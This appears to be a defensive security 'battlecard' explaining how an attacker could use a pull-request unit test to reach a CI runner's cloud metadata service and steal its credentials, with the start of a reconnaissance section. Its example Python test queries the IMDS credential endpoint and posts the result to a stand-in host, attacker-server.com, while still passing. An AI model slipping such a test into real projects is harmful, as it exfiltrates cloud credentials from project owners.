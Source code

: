 ```yaml
---
 permalink: /battlecards/cloud-metadata-and-ssrf-in-builds
battlecard:
 title: Cloud Metadata and SSRF in Builds
 category: CI/CD
 scenario: Cloud Metadata & SSRF in Builds
 focus: 
   - IMDS credential theft 
   - SSRF via tests 
   - cloud secret exfiltration 
---
```

{% block type='battlecard' text='Scenario' %}
An attacker identifies a popular open-source project on GitHub that uses a CI/CD pipeline to automatically test pull requests (PRs). They notice the pipeline runs on cloud-hosted runners (e.g., AWS EC2, GCP Compute Engine). The attacker's goal is to steal the cloud credentials assigned to the build runner to access sensitive data.

The attacker forks the repository and adds a new unit test to a test file. The test seems harmless—it purports to check the functionality of a URL parsing library. However, it's crafted to trigger a Server-Side Request Forgery (SSRF) vulnerability.

**The Malicious Code (example in a Python test file):**
```python
import requests

# A seemingly innocent test added by the attacker
def test_url_fetcher_with_special_characters():
# The payload is a URL to the cloud metadata service
malicious_url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# The application code being "tested" unsafely fetches this URL
response = an_existing_url_fetching_function(malicious_url)

# The test exfiltrates the credentials by sending them to the attacker's server
requests.post("https://attacker-server.com/log", data=response.text)

# The test might even pass to avoid suspicion
assert response.status_code == 200
```
The attacker submits a PR with this new test. When the project's CI/CD pipeline automatically runs the tests for the PR, the malicious code executes inside the trusted environment. It queries the cloud's Instance Metadata Service (IMDS), retrieves the temporary IAM credentials assigned to the build runner, and sends them to the attacker's server. With these credentials, the attacker can now assume the role of the CI machine and access any cloud resources it was permitted to, such as S3 buckets with user data, private container registries, or a cloud secret store.

{% endblock %}
{% block type='battlecard' text='Reconnaissance' %}
### Explanation
This is the "casing the joint" phase. The attacker isn't attacking you directly yet; they're gathering intelligence to find the weakest link. For this scenario, they focus on your CI/CD setup, which is often publicly visible. They'll look for repositories that automatically run tests on PRs from external contributors. They study your CI configuration files (`.github/workflows/main.yml`, `.gitlab-ci.yml`) to understand your build environment, what cloud provider you use, the permissions you might be granting, and the dependencies you use.
